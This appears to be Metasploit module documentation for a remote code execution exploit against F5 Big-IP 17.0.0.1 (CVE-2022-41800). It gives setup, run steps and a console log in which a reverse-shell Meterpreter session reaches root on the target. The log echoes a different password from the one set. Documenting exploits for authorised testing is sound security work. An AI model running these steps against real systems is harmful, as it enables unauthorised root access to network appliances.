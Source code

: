 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800`
4. Do `set RHOST <target>` / `set HttpUsername admin` / `set HttpPassword <thepasswordyouchose>`
5. Do: `run`
6. You should get a session

## Options

### `HttpUsername` / `HttpPassword`

The account to authorize as - requires console access. The `admin` account (which
is the default `HttpUsername`) works great, if you have the password.

## Scenarios

### F5 Big-IP 17.0.0.1

This should be the normal experience:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162

msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword iagotestbigip
HttpPassword => mybigippassword

msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Creating an .rpmspec file on the target...
[*] Created spec file: /var/config/rest/node/tmp/2fadbb5d-ed94-4b23-ba57-2f0d273d2bdc.spec
[*] Building the RPM to trigger the payload...
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/2fadbb5d-ed94-4b23-ba57-2f0d273d2bdc.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/wOXt3-4.1.3-0.8.6.noarch.rpm
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:38556) at 2022-11-14 15:14:23 -0800

meterpreter > getuid
Server username: root
```
